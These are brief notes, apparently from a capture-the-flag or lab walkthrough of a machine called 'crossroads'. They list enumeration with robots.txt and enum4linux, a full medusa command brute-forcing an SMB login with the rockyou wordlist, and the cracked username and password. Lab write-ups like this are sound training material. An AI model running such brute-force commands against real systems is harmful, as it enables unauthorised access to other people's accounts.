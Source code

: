 found /crossroads.png in robots.txt

found a username 'albert' from enum4linux

used medusa to crack password (medusa -h 192.168.10.9 -u albert -P ~/Desktop/rockyou.txt -M smbnt)
found:
'User: albert Password: bradley1'